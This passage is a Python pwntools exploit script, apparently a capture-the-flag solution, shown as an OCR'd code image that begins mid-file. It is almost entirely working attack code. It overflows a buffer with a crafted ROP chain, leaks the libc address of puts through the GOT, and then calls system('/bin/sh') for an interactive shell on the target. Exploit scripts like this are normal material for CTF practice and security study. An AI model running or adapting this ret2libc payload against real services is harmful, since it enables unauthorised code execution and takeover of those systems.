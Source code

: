 ```
    return p


def main():
    p = connect()

    pop_rdi = 0x401443
    pop_rsi = 0x401441
    ret_nop = 0x40101a

    payload = b"A"*100
    payload+= b"\x00"*12
    payload+= b"A"*100
    payload+= b"\x00"*4
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef) #int i
    payload+= p64(0xdeadbeef) #save rbp
    payload+= p64(pop_rdi)
    payload+= p64(elf.got['puts'])
    payload+= p64(elf.symbols['puts'])
    payload+= p64(elf.symbols['main'])
    p.sendline(payload)

    p.recvuntil("reward:")
    p.recvline()
    leak = p.recv()
    libc_leak = u64(leak[:6].ljust(8, b"\x00"))
    print("got leak:", hex(libc_leak))
    libc.address = libc_base = libc_leak - libc.symbols['puts']

    payload = b"A"*100
    payload+= b"\x00"*12
    payload+= b"A"*100
    payload+= b"\x00"*4
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef)
    payload+= p64(0xdeadbeef) #int i
    payload+= p64(0xdeadbeef) #save rbp
    payload+= p64(pop_rdi)
    payload+= p64(next(libc.search(b"/bin/sh\x00")))
    payload+= p64(ret_nop)
    payload+= p64(libc.symbols['system'])
    payload+= p64(libc.symbols['exit'])
    p.sendline(payload)
    p.interactive()




if __name__ == "__main__":
    main()
```
